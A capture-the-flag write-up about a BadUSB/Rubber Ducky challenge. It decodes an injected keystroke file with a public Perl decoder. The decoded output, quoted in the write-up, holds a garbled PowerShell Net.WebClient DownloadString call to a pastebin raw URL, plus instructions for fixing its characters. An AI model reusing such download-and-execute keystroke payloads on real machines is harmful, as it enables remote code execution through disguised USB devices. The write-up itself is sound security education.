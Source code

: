 # HID

## Task

One of my colleagues found a USB stick in the parking lot in front of our company. Fortunately he handed it over directly to us . The drive contains an SD card with just one file. Maybe it's no normal USB flash drive?

File: inject.bin

Tags: binary-analysis

## Solution

A USB device can be used as a HID (Human-Interface-Device). It looks like a USB stick, but is actually a keyboard. This is called HID attack or BadUSB.

What you think you get: a filesystem.
What you get: a keyboard that launches malicious commands to take over your computer.

The tag is very misleading. This isn't binary analysis, we actually just need to find the tool that was used to encode this keyboard inputs.

A very popular device is the Rubber Ducky.

`The USB Rubber Ducky injects keystrokes at superhuman speeds`

While researching I came across this very interesting post: https://security.stackexchange.com/a/109595

It is definitely worth a read. There is also a link to a repository: https://github.com/brandonlw/Psychson#running-demo-1-hid-payload

There is explained how to use the `Duckencoder` to encode the `Rubber Ducky format`. There is also a link to a decoder: https://github.com/midnitesnake/usb-rubber-ducky (forwarded from the google url).

We can use the `Decode/ducky-decode.pl` script to decode the `inject.bin`.

```bash
$ perl ducky-decode.pl -f inject.bin > decoded.txt
```

In the decoded file we find a lot of errors, like `windowstzle`. The keyboard layout is obviously wrong. We could fix that by changing the replacements in the script, but let's look for the flag first.

After scrolling down a lot and filtering out noise we find this:

`N e t . W e b C l i e n t ( . D o w n l o a d S t r i n g * | h t t p s > & & p a s t e b i n . c o m & r a w & Y R D 8 j s v d | ( < @`

Now we just need to replace `Y` with `Z`, `>` with `:`, `&` with `/` and open the correct url. Done.
